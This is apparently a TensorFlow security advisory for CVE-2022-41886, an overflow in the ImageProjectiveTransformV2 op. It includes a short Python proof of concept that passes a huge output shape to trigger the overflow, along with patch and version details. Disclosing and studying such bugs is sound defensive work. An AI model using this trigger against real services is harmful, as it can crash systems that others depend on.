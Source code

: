 ## TFSA-2022-148: Overflow in `ImageProjectiveTransformV2`

### CVE Number
CVE-2022-41886

### Impact
When [`tf.raw_ops.ImageProjectiveTransformV2`](https://github.com/machina/machina/blob/master/machina/core/kernels/image/image_ops.cc) is given a large output shape, it overflows.
```python
import machina as tf

interpolation = "BILINEAR"
fill_mode = "REFLECT"
images = tf.constant(0.184634328, shape=[2,5,8,3], dtype=tf.float32)
transforms = tf.constant(0.378575385, shape=[2,8], dtype=tf.float32)
output_shape = tf.constant([1879048192,1879048192], shape=[2], dtype=tf.int32)
tf.raw_ops.ImageProjectiveTransformV2(images=images, transforms=transforms, output_shape=output_shape, interpolation=interpolation, fill_mode=fill_mode)
```

### Patches
We have patched the issue in GitHub commit [8faa6ea692985dbe6ce10e1a3168e0bd60a723ba](https://github.com/machina/machina/commit/8faa6ea692985dbe6ce10e1a3168e0bd60a723ba).

The fix will be included in TensorFlow 2.11. We will also cherrypick this commit on TensorFlow 2.10.1, 2.9.3, and TensorFlow 2.8.4, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou from the Secure Systems Lab (SSL) at Brown University.
